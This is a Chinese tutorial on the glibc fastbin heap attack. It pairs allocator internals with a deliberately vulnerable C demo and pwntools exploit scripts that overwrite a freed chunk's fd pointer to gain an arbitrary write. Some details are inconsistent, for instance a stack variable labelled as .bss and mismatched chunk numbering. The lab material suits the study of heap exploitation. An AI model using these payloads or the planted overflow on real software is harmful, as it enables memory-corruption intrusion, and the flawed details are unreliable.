# 堆溢出——fastbin攻击

## fastbin概述
>Fast Bin 机制是 ptmalloc 针对小内存高频分配与释放场景的一项关键优化

### Fast Bin 的设计背景与目的

大多数程序经常会申请以及释放一些比较小的内存块。如果将一些较小的 chunk 释放之后发现存在与之相邻的空闲的 chunk 并将它们进行合并，那么当下一次再次申请相应大小的 chunk 时，就需要对 chunk 进行分割，这样就大大降低了堆的利用效率（因为我们把大部分时间花在了合并、分割以及中间检查的过程中（因此，ptmalloc 中专门设计了 fast bin，对应的变量就是 malloc state 中的 fastbinsY


- 小内存块的高频操作：在实际程序运行中，频繁申请和释放小内存块（通常指 16 到 80 字节之间）是非常常见的操作。

- 合并与分割的开销：如果在释放小 Chunk 时，系统立即执行复杂的合并操作（检查前后相邻块并合并），那么在下一次申请同样大小的 Chunk 时，系统又必须重新从合并后的大块中切割出合适的大小。这种频繁的合并与分割过程会消耗大量的 CPU 时间。

- Fast Bin 的引入：为了规避这种不必要的性能损耗，ptmalloc 引入了 fast bin 机制。它专门用于管理这些极小的空闲 Chunk，在分配和释放时采用更简单、更快速的策略。

- 数据结构定义：在 malloc_state 结构体中，Fast Bin 对应的存储变量为 mfastbinptr fastbinsY[NFASTBINS];。

### Fast Bin 的组织结构与操作策略

为了更加高效地利用 fast bin，glibc 采用单向链表对其中的每个 bin 进行组织，并且每个 bin 采取 LIFO（Last-In, First-Out 后进先出）策略，最后被添加进来的元素，将第一个被移除，最近释放的 chunk 会更早地被分配，所以会更加适合于局部性。也就是说，当用户需要的 chunk 的大小小于 fastbin 的最大大小时，ptmalloc 会首先判断 fastbin 中相应的 bin 中是否有对应大小的空闲块，如果有的话，就会直接从这个 bin 中获取 chunk。如果没有的话，ptmalloc 才会做接下来的一系列操作。


- 单向链表：与 small bins 和 large bins 使用双向链表不同，Fast Bin 中的每个 Bin 采用单向链表（Singly Linked List）进行组织。这简化了插入和删除操作，进一步提高了速度。

- LIFO（后进先出）策略：

  - 释放（free）一个 Chunk 时，它会被插入到对应 Fast Bin 链表的头部。

  - 分配（malloc）一个 Chunk 时，直接从链表的头部取出。

  - 这种策略意味着最近释放的 Chunk 会最先被再次分配。

- 局部性优势：由于程序往往具有时间局部性（刚刚释放的内存很可能马上再次被使用），LIFO 策略能让最近释放的 Chunk 优先被复用，从而更好地利用 CPU 缓存（Cache Locality），提高执行效率。

- 分配流程：

  - 当用户请求分配的内存大小满足 Fast Bin 的范围时（即小于 fastbin 的最大大小），ptmalloc 会优先在 Fast Bin 中查找。

  - 如果对应大小的 Fast Bin 链表不为空，则直接从链表头部取出一个 Chunk 分配给用户，分配过程结束。

  - 只有在 Fast Bin 中找不到合适 Chunk 时，ptmalloc 才会去处理更复杂的逻辑（如遍历 unsorted bin、合并等）。

### Fast Bin 的尺寸限制与链表数量

默认情况下（32位系统为例），fastbin 中默认支持最大的 chunk 的数据空间大小为 64 字节。（64位是 128 字节）在 32 位系统中，fastbin 默认支持的最大用户数据空间为 64 字节，对应的 chunk 总大小为 72 字节。通过 mallopt 可以调整上限至 80 字节数据空间。fastbin 共包含 10 个链表，管理着从最小到最大不同大小的空闲 chunk

- 用户数据空间（Payload）：最大为 64 字节。

- Chunk 总大小：等于用户数据空间 + 头部（Header）大小。在 32 位系统中，头部通常为 8 字节（prev_size + size），因此总大小为 64 + 8 = 72 字节。

- 可调整上限：通过 mallopt 函数，可以调整 Fast Bin 的上限，最大支持 80 字节的用户数据空间。

- 链表数量：Fast Bin 内部共包含 10 个链表（对应 malloc_state 中的 fastbinsY[NFASTBINS]，NFASTBINS 通常为 10）。这 10 个链表分别管理不同大小的空闲 Chunk（例如 16字节、24字节、32字节……直至 80字节）。

### 全局变量与配置

ptmalloc 默认情况下会调用 set_max_fast(s) 将全局变量 global_max_fast (后面比较重要的全局变量，某些攻击可能涉及篡改改值，让不属于fastbin的chunk也能被放进fastbin) 设置为 DEFAULT_MXFAST，也就是设置 fast bins 中 chunk 的最大值。当 MAX_FAST_SIZE 被设置为 0 时，系统就不会支持 fastbin。

- global_max_fast：这是一个全局变量，定义了 Fast Bin 能处理的 Chunk 的最大尺寸（注意：这里指的是 Chunk 总大小，而非 Payload 大小）。

- 默认设置：ptmalloc 初始化时会调用 set_max_fast() 将 global_max_fast 设置为默认值（32位系统通常为 64 字节，64位系统为 128 字节）。

- 安全风险：如果攻击者能够通过某种漏洞（如任意地址写）篡改 global_max_fast 的值，将其改大，那么原本不属于 Fast Bin 范围的大 Chunk 也会被放入 Fast Bin。由于 Fast Bin 不进行合并操作，这会极大地破坏堆的完整性，为后续的利用创造条件。

- 禁用 Fast Bin：如果将 MAX_FAST_SIZE 设置为 0，系统将完全不支持 Fast Bin 机制。

### 核心行为特征：不合并与不检查

需要特别注意的是，fastbin 范围的 chunk 的 inuse 始终被置为 1。因此它们不会和其它被释放的 chunk 合并。

- inuse 位始终为 1：当一个 Chunk 被放入 Fast Bin 时，它所在内存位置的下一个 Chunk 的 PREV_INUSE 标志位（即 inuse 位）不会被清零（依然保持为 1，表示前一个 Chunk “正在使用中”）。

- 禁止合并：由于 inuse 位为 1，当相邻的 Chunk 被释放时，free() 函数会认为前一个 Chunk 正在使用，因此不会触发合并操作。这保持了 Fast Bin 链表的简洁，但也导致了内存碎片的产生。

- 安全影响：这一特性是 Fastbin Attack 的基础。攻击者可以利用这一点，伪造一个 Chunk 并释放它（即使它在逻辑上“不应该”是空闲的），将其强行插入 Fast Bin。

### 触发合并的条件与安全隐患

但是当释放的 chunk 与该 chunk 相邻的空闲 chunk 合并后的大小大于 FASTBIN_CONSOLIDATION_THRESHOLD 时，内存碎片可能比较多了，我们就需要把 fast bins 中的 chunk 都进行合并，以减少内存碎片对系统的影响。
另外 fastbin 默认使用单链表串起所有的 free chunks，就导致了 fastbin 本身安全性比较低。

- 合并触发阈值：虽然 Fast Bin 中的 Chunk 通常不合并，但为了防止内存碎片过多，ptmalloc 设定了一个阈值 FASTBIN_CONSOLIDATION_THRESHOLD（通常为 64KB）。当释放的 Chunk 与相邻空闲 Chunk 合并后的大小超过这个阈值时，free() 会触发一次特殊操作：遍历 Fast Bin 中的所有 Chunk，将它们全部取出，进行合并（Consolidation），并放入 Unsorted Bin 中。这被称为 malloc_consolidate。

- 安全性较低：Fast Bin 采用单向链表（只使用 fd 指针），且缺乏对链表完整性的严格校验。这意味着，如果攻击者能够控制 fd 指针，就可以轻易地伪造链表，导致 malloc 返回任意地址，这是 Fast Bin 安全性较低的根本原因。


## fastbin攻击
>核心在于利用了 Fast Bin 单向链表 和 缺乏完整性校验的特点

- 堆空间的管理本质上是对bin链表的维护
- 堆块释放后，原本指向它的指针并不自动销毁
- 结果：指针悬空（指向未使用的内存，但仍然可以引用该空间）

### 核心思想
利用堆溢出漏洞，篡改 Fast Bin 单向链表中空闲 Chunk 的 fd 指针，使其指向攻击者伪造的任意地址。当再次分配该大小的内存时，malloc 就会返回这个伪造的地址，从而实现“任意地址写”。

1. **溢出**：通过堆溢出覆盖 Fast Bin 中空闲 Chunk 的 fd 指针。

2. **伪造**：将 fd 指向攻击者精心构造的“伪造 Chunk”地址（通常是目标地址 - 8）。

3. **分配**：通过连续两次 malloc，第一次取走原 Chunk，第二次取出伪造的 Chunk，从而让 malloc 返回攻击者指定的任意地址。

4. **写入**：通过后续的写操作（如 read），实现任意地址写。

### 示例

```
攻击fastbin
buff0 = malloc ( malloc_size)
buff1 = malloc ( malloc_size)
buff2 = malloc ( malloc_size)
free ( buff0 )
free ( buff1 )
free ( buff2 )
```

**代码逻辑**

- buff0 = malloc(size)，buff1 = malloc(size)，buff2 = malloc(size)：连续申请三个相同大小的 Chunk。

- free(buff0)，free(buff1)，free(buff2)：依次释放它们。

**内存布局**



- 释放后，这三个 Chunk 会被插入到对应的 Fast Bin 链表中。

- 由于是 LIFO 策略，最后释放的 chunk2 位于链表头部（fastbin 指针指向它）。

- 链表的连接关系为：fastbin -> chunk2 -> chunk1 -> chunk0 -> NULL。

- 每个空闲 Chunk 的 fd 指针指向下一个空闲 Chunk（例如 chunk2 的 fd 指向 chunk1）。

- 注意：Fast Bin 中的 Chunk 的 PREV_INUSE 位（P位）始终为 1，因此它们不会与相邻的空闲 Chunk 合并。

**利用溢出篡改 fd 指针**

- 攻击前提：攻击者拥有一个可以溢出到 chunk0 数据区的漏洞（例如通过 read 或 strcpy）。

- 攻击目标：篡改当前位于 Fast Bin 链表头部的 Chunk（即 chunk1）的 fd 指针。

- 攻击步骤
     
  1. buf0 = malloc(32)：从 Fast Bin 中取出 chunk0（链表头部），buf0 现在指向 chunk0。
      
  2. read(buf0)：漏洞触发点。向 buf0（即 chunk0）写入超长数据。由于 chunk0 的 fd 指针位于其数据区的前几个字节，溢出数据会覆盖 chunk0 的 fd 指针。
     
  3. 攻击者将 chunk0 的 fd 指针修改为 AAAA（图中 fastbin 数组中的 0x28 位置变为 AAAA）。AAAA 代表一个攻击者控制的地址（例如 0x41414141）。
      
  4. 此时，Fast Bin 的链表结构被破坏，变为：fastbin -> chunk1 -> AAAA。


**触发 Fastbin Attack 实现任意地址写**

- buf1 = malloc(32)：malloc 会从 Fast Bin 链表头部取出 chunk1，返回给 buf1。此时 Fast Bin 链表头部变为 AAAA。
   
  
- buf2 = malloc(32)：关键步骤。malloc 再次从 Fast Bin 中分配。它会检查链表头部指向的地址（即 AAAA）。
  
  - malloc 会将 AAAA 视为一个 Chunk 的起始地址，并检查该 Chunk 的 size 字段是否合法。
  - 如果 AAAA 指向的地址处存在一个伪造的、大小合适的 size 字段（例如 0x29，表示大小为 40 字节，且 PREV_INUSE 位为 1），malloc 就会认为这是一个合法的空闲 Chunk。
  - 于是，malloc 会将 AAAA 从 Fast Bin 中取出，并返回给 buf2。
  - 注意：malloc 返回的是 Chunk 的 Payload 地址。由于 AAAA 是 Chunk 的起始地址（包含头部），实际返回给 buf2 的地址是 AAAA + 8（32位系统中头部大小为 8 字节，Payload 从 +8 开始）。

  - 最终效果：buf2 现在指向了 AAAA + 8。

- 代码执行到第 9 行：read(buf2)
  
  - 此时，攻击者向 buf2 写入数据，实际上就是在向 AAAA + 8 这个任意地址写入数据。

  - 这就实现了“任意地址写”（Arbitrary Write）。

**进阶利用**

如果我们将 AAAA 替换为 any_address - 8，并在 any_address - 8 处伪造一个 presize=0，size=0x29 的堆块，则将能够控制 malloc 的返回值（malloc 将返回 any_address），结合后面的 read 将实现任意地址写。


- any_address - 8：攻击者希望 malloc 最终返回 any_address（例如，__malloc_hook 的地址）。由于 malloc 返回的是 Payload 地址，而 Payload 位于 Chunk 起始地址 + 8 的位置，因此攻击者需要让 Fast Bin 的 fd 指向 any_address - 8。
- 伪造 Chunk：攻击者必须提前在 any_address - 8 这个地址处，精心布置好伪造的 Chunk 头部数据：
  
  - presize = 0：前一个 Chunk 大小，可以随意设置。
  - size = 0x29：这是最关键的。0x29 的二进制是 0b101001。它表示 Chunk 大小为 40 字节（0x28），且最低位（PREV_INUSE）为 1。这符合 Fast Bin 对 Chunk 大小的要求，骗过 malloc 的合法性检查。
  - 结果：malloc 会返回 any_address。随后的 read(buf2) 就可以向 any_address 写入任意数据。

## attack demo

**漏洞堆程序**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main() {
    printf("=== Fastbin Attack Demo ===\n");

    char *a = malloc(32);
    char *b = malloc(32);

    printf("a = %p\n", a);
    printf("b = %p\n", b);

    strcpy(a, "AAAA");
    strcpy(b, "BBBB");

    free(a);
    free(b);
    printf("[!] 已释放 a 和 b，Fastbin 链表: b -> a\n");

    printf("[!] 请输入 Payload:\n");
    char payload[256];
    int n = read(0, payload, sizeof(payload));
    memcpy(a, payload, n);

    // 查看 b 的 fd 指针
    unsigned int *b_fd = (unsigned int *)b;
    printf("b 的 fd 指针 = 0x%08x\n", *b_fd);

    // 第一次 malloc，返回 b
    char *c = malloc(32);
    printf("第一次 malloc 返回: %p (应该是 b)\n", c);

    // 第二次 malloc，返回伪造地址
    char *d = malloc(32);
    printf("第二次 malloc 返回: %p (应该是伪造地址 + 8)\n", d);

    return 0;
}
```

**POC**
```py
from pwn import *

p = process('./fastbin_attack')   


# 构造 Payload
payload  = b'A' * 32       # 填充 a 的用户数据区
payload += b'B' * 8        # 填充 a 的填充区
payload += b'C' * 4        # b 的 prev_size
payload += p32(0x31)       # b 的 size（保持合法）
payload += p32(0x61616161) # b 的 fd（伪造地址：0x61616161，即 'aaaa'）

p.send(payload)
p.interactive()
```


- 可以看到b的fd指针已经被劫持
- 最后一次malloc时由于0x61616161 是一个非法地址，malloc 直接触发段错误（SIGSEGV），程序崩溃exit code -11 (SIGSEGV)

**动态跟进脚本**
```py
from pwn import *

# 设置 pwntools 的调试终端（推荐用 tmux 或 gnome-terminal）
context.terminal = ['tmux', 'splitw', '-h']  # 或者 ['gnome-terminal', '--', 'bash', '-c']
p=process('./fastbin_attack')
p.recvuntil(b'a = ')
a_addr = int(p.recvline().strip(), 16)
p.recvuntil(b'b = ')
b_addr = int(p.recvline().strip(), 16)


payload=b'A'*32
payload+=b'B' * 8        
payload += b'C' * 4        
payload += p32(0x31)      
payload += p32(b_addr) #b的地址


gdb.attach(p)

p.send(payload)
p.interactive()
```

**动态跟进**
```
tmux
python3 exp.py
```



**此时溢出数据已经覆盖chunk b，size是我们精心构造的大小，也劫持了fd指针指向b**

这等于把 b->fd 指向了 b 自己！这是一个 “自环”，会导致 malloc 在同一个地址上无限循环。



把 b->fd 设置为 b_addr（即 b 自己）。这意味着 Fastbin 链表变成了：

```text
fastbin -> b -> b -> b -> b -> ...
```

- 第一次 malloc：返回 b，链表头变为 b->fd = b。
- 第二次 malloc：malloc 会再次尝试返回 b。但由于 b 已经被分配了，可能会导致 malloc 陷入死循环，最终导致崩溃。


## 任意地址写

- 在 .bss 段（或任何可写地址）伪造一个 Chunk：

  - 在 fake_addr + 4 处写入 0x31（合法的 size）。

  - 把 b->fd 设置为 fake_addr。

  - 第二次 malloc 会返回 fake_addr + 8，就能向那里写入数据。






**选取可读可写的.bss段中的空白地址**

glibc 2.26+ 引入的 Tcache 安全检查。

当你的程序调用 malloc 时，glibc 会检查 Fastbin/Tcache 中的 Chunk 地址是否满足 16 字节对齐（即地址的低 4 位必须是 0）
在 32 位系统中，.bss 段的地址可能不是 16 字节对齐的（比如 0x574f3458，末尾是 8，不是 16 的倍数）。

当 malloc 试图从 Fastbin 中取出这个非对齐的地址时，就会报错 unaligned tcache chunk detected，然后程序崩溃。


因此需要把 bss_addr 对齐到 16 字节
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main() {
    printf("=== Fastbin Attack Demo ===\n");
    int bss_var;
    printf("bss = %p\n", &bss_var);
    char *a = malloc(32);
    char *b = malloc(32);

    printf("a = %p\n", a);
    printf("b = %p\n", b);

    strcpy(a, "AAAA");
    strcpy(b, "BBBB");

    free(a);
    free(b);
    printf("[!] 已释放 a 和 b，Fastbin 链表: b -> a\n");

    printf("[!] 请输入 Payload:\n");
    char payload[256];
    int n = read(0, payload, sizeof(payload));
    memcpy(a, payload, n);

    // 查看 b 的 fd 指针
    unsigned int *b_fd = (unsigned int *)b;
    printf("b 的 fd 指针 = 0x%08x\n", *b_fd);

    // 第一次 malloc，返回 b
    char *c = malloc(32);
    printf("第一次 malloc 返回: %p (应该是 b)\n", c);

    // 第二次 malloc，返回伪造地址
    char *d = malloc(32);
    printf("第二次 malloc 返回: %p (应该是伪造地址 + 8)\n", d);

    return 0;
}
```
```py
from pwn import *

# 设置 pwntools 的调试终端（推荐用 tmux 或 gnome-terminal）
context.terminal = ['tmux', 'splitw', '-h']  # 或者 ['gnome-terminal', '--', 'bash', '-c']

p=process('./fastbin_attack')
p.recvuntil(b'bss = ')
bss_addr = int(p.recvline().strip(), 16)

p.recvuntil(b'a = ')
a_addr = int(p.recvline().strip(), 16)
p.recvuntil(b'b = ')
b_addr = int(p.recvline().strip(), 16)

fake_addr = bss_addr & ~0xf  # 向下取整到 16 的倍数
payload=b'A'*32
payload+=b'B' * 8        
payload += b'C' * 4        
payload += p32(0x31)      
payload += p32(fake_addr) 


gdb.attach(p)

p.send(payload)
p.interactive()
```


**数据覆盖成功**


**由于指向的bss段地址没有构造正确的size字段导致程序崩溃**